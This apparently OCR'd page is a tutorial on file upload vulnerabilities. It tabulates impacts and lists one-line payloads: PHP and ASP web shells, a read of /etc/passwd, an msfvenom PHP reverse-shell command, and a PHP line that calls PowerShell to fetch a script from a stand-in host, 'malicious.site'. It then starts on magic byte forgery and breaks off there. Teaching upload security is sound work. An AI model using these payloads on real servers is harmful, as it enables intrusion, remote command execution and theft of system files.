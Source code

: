 ### **INTRODUCTION**

File Upload vulnerabilities occur when a web application file upload feature lacks robust validation, allowing attacker to upload harmful files. These files can execute malicious scripts or malware on the server, leading to unauthorized access or data breaches.

### **IMPACT OF FILE UPLOAD VULNERABILITIES**

The potential consequences of file upload vulnerabilities can vary greatly depending on the application’s code, the web server’s configuration, and the underlying operating system. The specific impact is highly influenced by how these elements are set up. Let's explore some common exploit scenarios, along with the conditions that could enable them:


| IMPACT                    | DESCRIPTION                                                                                                                                                                              |
|-------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Remote Code Execution (RCE)| One of the most severe outcomes. Attacker can upload malicious files, such as web shells, granting them the ability to execute terminal commands on the server directly through a browser.     |
| Denial of Service (DoS)    | If file size or quantity restrictions aren't enforced, attacker can overwhelm the server by uploading excessive files, consuming all available storage and rendering the application unusable.  |
| Web Defacement             | If root directory permissions are improperly configured, attacker can overwrite legitimate website content, altering the appearance or functionality of the website.                           |
| Phishing Pages             | Attacker could modify existing pages to collect sensitive user information, redirecting the data to an external server under their control, often used for phishing attacks.                  |


### **ONE LINE SHELL PAYLOADS**

1.  Basic PHP Execution: Executes a command passed via the x parameter.  
    `<?='$_GET[x]'?>`
2.  Basic PHP File Read: Displays the contents of the /etc/passwd file.  
    `<?php echo file_get_contents('/etc/passwd'); ?>`
3.  Basic PHP Command: Executes the hostname command on the server.  
    `<?php echo system('hostname'); ?>`
4.  PHP Web Shell: Enables dynamic command execution via a web interface, accepting commands via the 'cmd' parameter.  
    `<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; system($_REQUEST['cmd']); echo "</pre>"; } ?>`
5.  Basic ASP Web Shell: Executes commands on an ASP server using the `cmd` query parameter.  
    `<% eval request("cmd") %>`
6.  PHP Reverse Shell:Generates a PHP script for establishing a reverse shell connection.  
    `msfvenom -p php/reverse_php LHOST=[IP-ADDRESS] LPORT=[PORT] -f raw > reverse.php`
7.  PowerShell Web Shell: Uses PHP to invoke PowerShell for downloading and executing a remote script.  
    `<?php echo shell_exec('powershell.exe -command "Invoke-WebRequest -Uri http://malicious.site/shell.ps1"'); ?>`

### **MAGIC BYTE FORGERY**

When an application uses a file's magic bytes to determine its content type, such as through PHP's mime_content_type function, security measures can be circumvented by forging the magic bytes of a permitted file type. For instance, if the application allows GIF images, we can manipulate the file's magic bytes to match those of a GIF (e.g., GIF89a) to trick the server into accepting it as a legitimate GIF file. This technique can be applied to various file types, as illustrated below:
